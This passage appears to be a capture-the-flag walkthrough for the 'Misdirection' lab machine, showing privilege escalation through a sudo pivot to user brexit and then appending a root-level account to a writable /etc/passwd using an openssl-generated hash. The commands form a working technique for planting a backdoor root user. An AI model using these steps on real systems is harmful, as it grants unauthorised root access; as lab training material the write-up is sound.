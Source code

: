 
<br>


## Priv-Esc

I use sudo -l and find out that the user brexit can use /bin/bash

```bash
$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```

<br>


#### sudo -u 
```bash
(remote) www-data@misdirection:/var/www/html/wordpress$ sudo -u brexit /bin/bash
brexit@misdirection:/var/www/html/wordpress
```

There are 2 ways to Priv-Esc in the box

<br>


### /etc/passwd

We look at /etc/passwd permission

```bash
(remote) brexit@misdirection:/tmp$ ls -al /etc/passwd
-rwxrwxr-- 1 root brexit 1617 Jun  1  2019 /etc/passwd
```

And found that we have write-permission on /etc/passwd so we insert a new user to the file 

So we create a password using openssl

```bash
$  openssl passwd -1 -salt hello 1234   
$1$hello$kz1RTN9pKM0QbUJeB5L8r0
```

And insert this into the passwd file, you can replace `test` with any username you want

```bash
test:$1$hello$kz1RTN9pKM0QbUJeB5L8r0:0:0:root:/root:/bin/bash

(remote) brexit@misdirection:/tmp$ echo 'test:$1$hello$kz1RTN9pKM0QbUJeB5L8r0:0:0:root:/root:/bin/bash' >> /etc/passwd
(remote) brexit@misdirection:/tmp$ su test
Password: 
root@misdirection:/tmp# 
```
